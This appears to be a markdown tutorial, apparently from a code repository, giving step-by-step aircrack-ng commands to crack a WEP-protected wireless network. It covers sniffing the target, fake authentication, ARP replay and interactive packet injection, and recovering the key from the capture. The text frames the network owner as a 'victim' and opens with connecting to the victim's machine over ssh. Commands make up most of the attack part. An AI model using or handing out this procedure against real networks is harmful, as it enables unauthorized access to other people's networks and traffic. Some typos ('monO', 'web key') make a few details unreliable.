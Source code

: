 Wireless Equivalent Privacy.
Most WEP keys can be recovered or cracked within 3 minutes.

To crack it, it is needed the following target's information:
- ESSID
- BSSID
- Wireless channel
- Client's MAC

---
Start a **WEP** attack:

- Connect to the victim's machine by ssh
- Identify the available wireless network interfaces:
````
airmon-ng
````
- Locate the target wireless network:
````
airodump-ng monO #mono is the monitor to pick
````
- When airodump locates de target, press Ctrl+C to stop the search
- Copy the MAC address in the BSSID and note the channel
- Open in other terminal airodump-ng to sniff wireless
````
airodump-ng --bssid victim's_mac_address -c channel -w file.txt 

#after bssid you must put the mac address that you obtained before and the -c indicates the channel
````
- Open another terminal without closing the before one and fake an authentication:
````
aireplay-ng -1 0 -a victim's_mac_address -h attacker's_mac_address -e VICTIM'S_ESSID monO --ignore-negative-one

#-1 indicates fake authentication, mono is the monitor to pick
````
- Once we get the fake authentication, we will generate traffic that appears to come from a trusted MAC:
````
aireplay-ng -3 -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#Here we are making an ARP injection or ARP replay attack
````
- While the ARP continues, open another terminal and write:
````
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#-2 indicates that we are using the Interactive Replay Attack, -c sets the destination to send the packets to all the hosts on the network
````
- Go back to the sniffing windows
![](img/sniffing window.png)
You must wait until the data field value is above 5000
- Then, stop everything
- Now, in a new terminal execute:
````
aircrack-ng -a 1 -b victim's_mac_address -n 64 web_log-01.cap

#this command is used to crack the web key
````
![](img/key found.png)